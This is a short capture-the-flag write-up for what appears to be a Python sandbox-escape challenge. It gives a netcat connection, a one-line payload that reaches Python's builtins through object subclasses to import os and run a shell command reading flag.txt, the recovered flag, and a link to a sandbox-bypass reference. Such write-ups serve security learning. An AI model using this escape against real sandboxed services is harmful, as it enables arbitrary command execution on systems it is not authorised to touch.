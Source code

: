 **Context**

![image](context2.png)

**Connection** `nc 16.16.65.31 31000`

I use this payload
```python
print(().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('cat flag.txt'))
```

**Result**

![image](result2.png)

**FLAG:** `acdfCTF{35c4p3_pl4n_1337_w0rk3d_y35!!}`

**Reference**: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
